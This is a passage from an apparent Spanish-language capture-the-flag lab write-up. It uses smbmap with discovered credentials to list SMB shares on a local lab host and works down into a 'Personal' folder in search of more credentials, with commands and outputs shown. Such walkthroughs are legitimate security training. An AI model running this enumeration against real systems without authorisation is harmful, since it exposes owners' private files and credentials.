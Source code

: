 ```bash
smbmap -H 172.17.0.2 -u "satriani7" -p "50cent" -r backup24
```

Lo cual obtendremos:

```
        Disk                                                         Permissions     Comment
    ----                                                         -----------     -------
    myshare                                              READ ONLY       Carpeta compartida sin restricciones
    backup24                                             READ ONLY       Privado
    ./backup24
    dr--r--r--                0 Sun Oct  6 03:19:02 2024 .
    dr--r--r--                0 Sun Oct  6 03:19:02 2024 ..
    dr--r--r--                0 Sun Oct  6 03:19:02 2024 CQFO6Q~M
    dr--r--r--                0 Sun Oct  6 03:15:02 2024 Documents
    dr--r--r--                0 Sun Oct  6 03:18:45 2024 Desktop
    dr--r--r--                0 Sun Oct  6 03:15:02 2024 Downloads
    dr--r--r--                0 Sun Oct  6 03:15:02 2024 Videos
    dr--r--r--                0 Sun Oct  6 03:18:50 2024 Temp
    dr--r--r--                0 Sun Oct  6 03:15:02 2024 Pictures
    home                                                 NO ACCESS       Produccion
    IPC$                                                 NO ACCESS       IPC Service (EseEmeB Samba Server)
```

Podemos ver que tiene una carpeta home como siempre la hemos conocido, sin embargo, nos interesa explorar `Documents` para ver si hay algo que nos sirva:

```bash
smbmap -H 172.17.0.2 -u "satriani7" -p "50cent" -r backup24/Documents
```

Lo cual nos muestra:
```
        Disk                                                         Permissions     Comment
    ----                                                         -----------     -------
    myshare                                              READ ONLY       Carpeta compartida sin restricciones
    backup24                                             READ ONLY       Privado
    ./backup24Documents
    dr--r--r--                0 Sun Oct  6 03:15:02 2024 .
    dr--r--r--                0 Sun Oct  6 03:19:02 2024 ..
    dr--r--r--                0 Sun Oct  6 03:15:05 2024 Work
    dr--r--r--                0 Sun Oct  6 03:17:16 2024 Personal
    home                                                 NO ACCESS       Produccion
    IPC$                                                 NO ACCESS       IPC Service (EseEmeB Samba Server)
```

Y ahora nos interesa esa carpeta que dice `Personal` puesto que puede tener credenciales:

```bash
smbmap -H 172.17.0.2 -u "satriani7" -p "50cent" -r backup24/Documents/Personal
```
